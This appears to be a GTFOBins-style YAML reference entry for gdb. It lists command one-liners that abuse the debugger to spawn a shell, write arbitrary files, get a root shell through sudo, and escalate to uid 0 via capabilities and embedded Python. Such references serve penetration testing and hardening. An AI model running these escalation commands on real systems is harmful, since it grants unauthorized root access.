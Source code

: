 ```yaml
---
description: |
  GDB may come with embedded Python support, in that case arbitrary code can be executed with the `python` command in the context of the GDB process. See the [Python](/gtfobins/python/) functions.
functions:
  execute-interactive:
    - code: gdb -nx -ex '!sh' -ex quit
  file-write:
    - code: |
        LFILE=file_to_write
        gdb -nx -ex "dump value $LFILE \"DATA\"" -ex quit
  sudo-enabled:
    - code: sudo gdb -nx -ex '!sh' -ex quit
  capabilities-enabled:
    - description: Only if it has been compiled with Python support.
      code: ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
---
```

